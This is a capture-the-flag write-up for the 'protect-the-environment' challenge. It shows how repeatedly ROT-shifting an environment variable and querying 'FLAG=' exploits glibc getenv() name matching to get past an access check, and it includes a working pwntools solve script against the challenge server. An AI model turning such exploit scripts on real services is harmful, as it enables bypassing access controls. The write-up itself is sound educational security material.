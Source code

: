 ```yaml
---
title: "FortiD CTF 2025 – protect-the-environment: Abusing getenv() with repeated ROT13"
date: 2025-09-13
toc: true
---
```


> *Protect the earth? We can't even protect our environment variables...*

### TL;DR

Repeatedly calling `protect FLAG` adds `+13` to each byte of the FLAG **value**. After 19 applications the first byte of the value becomes `'='`, turning the stored string into `FLAG==...`. Then `print FLAG=` matches that entry and returns the encoded payload. Recover the original flag by adding `+9` to each returned byte (i.e. `original = (encoded + 9) % 256`).
### What the program does

```c
// gcc -o chall chall.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rot13(char *s) {
  while (*s != 0) {
    *s += 13;
    s++;
  }
}

int main(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);

  char command[64];
  char name[64];

  while (1) {
    printf("> ");
    scanf("%63s %63s", command, name);
    if (!strcmp(command, "protect")) {
      char *val = getenv(name);
      if (val) {
        rot13(val);
        printf("Protected %s\n", name);
      } else {
        printf("No such environment variable\n");
      }
    } else if (!strcmp(command, "print")) {
      if (!strcmp(name, "FLAG")) {
        printf("Access denied\n");
      } else {
        char *val = getenv(name);
        if (val) {
          printf("%s=%s\n", name, val);
        } else {
          printf("No such environment variable\n");
        }
      }
    } else {
      printf("Unknown command\n");
      break ;
    }
  } 
  return 0;
}
```

The source code doesn't appear to be exploitable: it simply protects the environment values using [rot13](https://en.wikipedia.org/wiki/ROT13) prints environment variables (except the flag) using `getenv()`. 
### Exploitation

I was honestly stunned for a long time — the binary looked clean and I couldn't find any vuln in the code — so I decided to f**k with my brain and dive into the `getenv()` source code.
#### getenv() mistreating entries

Reading the glibc `getenv()` [implementation](https://elixir.bootlin.com/glibc/glibc-2.27/source/stdlib/getenv.c) we see that `getenv()` scans the environment array (`environ` / `start_environ`) line by line, looking for an entry of the form `NAME=VALUE`. When it finds a matching name it returns a pointer to the value (the characters immediately after the `=`).

```c
size_t len = strlen (name);
for (char **ep = start_environ; ; ++ep)
{
    char *entry = atomic_load_relaxed (ep);
    if (entry == NULL)
    break;

    /* If there is a match, return that value.  It was valid at
        one point, so we can return it.  */
    if (name[0] == entry[0]
        && strncmp (name, entry, len) == 0 && entry[len] == '=')
    return entry + len + 1;
}
```

So if we can turn the first byte of the **value** into an `'='` byte, the stored environment string becomes `NAME==...` (note the double `=`). If we then call `print NAME=` (notice the extra `=` included in the name we pass to the program) the `getenv()` call will look for an entry named `NAME=` and check that `entry[len] == '='` — that second `=` is the one we created at the start of the value. `getenv()` therefore returns a pointer to the data _after_ the second `=` — i.e. the original value with its first byte removed (so you can now read the encoded payload).

##### How many times do we need to call `protect`?

Each `protect` call adds `13` to every byte of the value (mod 256). If the value's first byte is `x`, after `k` calls it becomes `(x + 13*k) % 256`. We want that first byte to become `=` (ASCII 61).

```
(x + 13*k) % 256 == 61
=> 13*k ≡ (61 - x) (mod 256)
```

As the flag starts with `'F'` (70), we need `13*k ≡ 61 - 70 ≡ -9 ≡ 247 (mod 256)`. Since `13 * 19 = 247`, `k = 19` is the solution — so 19 `protect` calls will make the first byte of the value `=`.

We can confirm this by using the following poc:

```python
from pwn import *

p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
    p.sendlineafter(b"> ", b"protect FLAG")

p.interactive()
```

![](https://github.com/user-attachments/assets/e4bfbe96-0011-4d8f-83b3-3dedd596ac31)

#### printf FLAG=

```python
from pwn import *
p = remote('0.cloud.chals.io', 33121)

for _ in range(19):
  p.sendlineafter(b"> ", b"protect FLAG")

p.sendlineafter(b"> ", b"print FLAG=")
p.recvuntil(b"FLAG=")
log.success(''.join(chr((ord(c)+9)%256) for c in p.recvline().strip().decode()))
```

![](https://github.com/user-attachments/assets/21ca19d3-0cdd-4f89-baa5-a890500d4166)

### Conclusion

Make the flag wear an extra `=` — print it out, add 9, and boom, flag unlocked.
